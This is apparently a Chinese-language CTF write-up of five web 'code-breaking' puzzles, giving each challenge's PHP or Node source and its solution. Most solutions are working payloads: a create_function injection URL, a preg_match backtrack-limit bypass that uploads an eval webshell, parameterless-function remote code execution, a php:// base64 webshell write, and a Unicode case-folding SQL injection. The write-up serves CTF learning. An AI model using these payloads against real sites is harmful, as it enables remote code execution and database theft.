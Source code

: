 ## 0x01 code-breaking-puzzles

#### 1. easy – function

```php
<?php
$action = $_GET['action'] ?? '';
$arg = $_GET['arg'] ?? '';

if(preg_match('/^[a-z0-9_]*$/isD', $action)) {
    show_source(__FILE__);
} else {
    $action('', $arg);
}
```

大佬们都说用的Fuzz来检测绕过正则的方法，最终在函数名称之间加`\`就好。  
可控的为第二个参数，可用create_function：`http://51.158.75.42:8087/?action=%5ccreate_function&arg=2;}var_dump(file_get_contents(%22/var/www/flag_h0w2execute_arb1trary_c0de%22));/*`

#### 2. easy - pcrewaf

```php
<?php
function is_php($data){
    return preg_match('/<\?.*[(`;?>].*/is', $data);
}

if(empty($_FILES)) {
    die(show_source(__FILE__));
}

$user_dir = 'data/' . md5($_SERVER['REMOTE_ADDR']);
$data = file_get_contents($_FILES['file']['tmp_name']);
if (is_php($data)) {
    echo "bad request";
} else {
    @mkdir($user_dir, 0755);
    $path = $user_dir . '/' . random_int(0, 10) . '.php';
    move_uploaded_file($_FILES['file']['tmp_name'], $path);

    header("Location: $path", true, 303);
} 
```

> 其实正解是通过pre_match函数的资源消耗来绕过，因为pre_match在匹配的时候会消耗较大的资源，并且默认存在贪婪匹配，所以通过喂一个超长的字符串去给pre_match吃，导致pre_match消耗大量资源从而导致php超时，后面的php语句就不会执行(PHP的PRCE引擎设置了pcre.backtrack_limit（回溯限制），当正则匹配的回溯次数达到这个值时就不会再匹配了)  
流程：
首先第一个`.*`会走到字符串末尾的AAAA，然后发现匹配不上，因为后面需要匹配一个`[(\`;?>]`
于是就开始回溯，回溯到前面的AAAA，发现还是不行.直到回溯到eval。然后发现匹配上了。那么如果A的数量超过pcre.backtrack_limit，他一直回溯，超过了这个限制，正则引擎就会报错，于是preg_match返回FALSE，绕过了判断  

ans1: `<?php @eval($_REQUEST[123]);//AAAAAAAAAA...`  
ans2:php的贪婪匹配存在一个问题，当一个数据量特别大之后，中间的恶意字符串是匹配不到的,所以可以生成一个文件

```python
reat_str = 'a' * 1000 * 1000
text = '<?php /*' + reat_str + '*/;echo "aaa";system($_GET["b"]);eval($_GET["a"]); /*' + reat_str + "*/?>"
print text
```

#### 3. easy – phplimit

```php
<?php
if(';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['code'])) {    
    eval($_GET['code']);
} else {
    show_source(__FILE__);
}
```
类似于RCTF 2018的r-cursive，but这个是在Nginx的服务器，没有`hetallheaders`函数。  
使用get_defined_vars：`http://51.158.75.42:8084/index.php/bbbbbbb?code=eval(next(current(get_defined_vars())));&b=var_dump(glob(%27/var/www/*%27));`  
或者直接：`code=readfile(next(array_reverse(scandir(dirname(chdir(dirname(getcwd())))))));` 
php 7.1下，`getenv()`函数新增了无参数时会获取服务段的env数据  


#### 4.easy - phpmagic

```php
<?php
if(isset($_GET['read-source'])) {
    exit(show_source(__FILE__));
}

define('DATA_DIR', dirname(__FILE__) . '/data/' . md5($_SERVER['REMOTE_ADDR']));

if(!is_dir(DATA_DIR)) {
    mkdir(DATA_DIR, 0755, true);
}
chdir(DATA_DIR);

$domain = isset($_POST['domain']) ? $_POST['domain'] : '';
$log_name = isset($_POST['log']) ? $_POST['log'] : date('-Y-m-d');
?>
    <div class="row">
        <div class="col">
            <pre class="mt-3"><?php if(!empty($_POST) && $domain):
                $command = sprintf("dig -t A -q %s", escapeshellarg($domain));
                $output = shell_exec($command);

                $output = htmlspecialchars($output, ENT_HTML401 | ENT_QUOTES);

                $log_name = $_SERVER['SERVER_NAME'] . $log_name;
                if(!in_array(pathinfo($log_name, PATHINFO_EXTENSION), ['php', 'php3', 'php4', 'php5', 'phtml', 'pht'], true)) {
                    file_put_contents($log_name, $output);
                }

                echo $output;
            endif; ?>
```
有`htmlspecialchars`过滤，直接写shell是不行的。  
只要是传filename的地方，基本都可以传协议流。所以可以php伪协议流解码base64写入webshell。  
php在处理路径的时候，会递归的删除掉路径中存在的`/.`  

#### 5. easy - nodechr
```php
function safeKeyword(keyword) {
    if(isString(keyword) && !keyword.match(/(union|select|;|\-\-)/is)) {
        return keyword
    }

    return undefined
}
let username = safeKeyword(ctx.request.body['username'])
let password = safeKeyword(ctx.request.body['password'])

let jump = ctx.router.url('login')
if (username && password) {
    let user = await ctx.db.get(`SELECT * FROM "users" WHERE "username" = '${username.toUpperCase()}' AND "password" = '${password.toUpperCase()}'`)

    if (user) {
        ctx.session.user = user

        jump = ctx.router.url('admin')
    }

}
```
通过fuzz可以发现（进行urldecode）%C4%B1.toUpperCase为i，%C5%BF为s  
payload: `username=aaaaa&password=%27+un%C4%B1on+%C5%BFelect+1,(%C5%BFelect+flag+from+flags),'3`

PS:HCTF 2018 的[admin](https://ctftime.org/writeup/12132)  
I register an account named as ᴬdmin, in the above steps, it will do something like ... ᴬdmin ->Admin -> admin

[javascript-up-low-ercase-tip](https://www.leavesongs.com/HTML/javascript-up-low-ercase-tip.html)  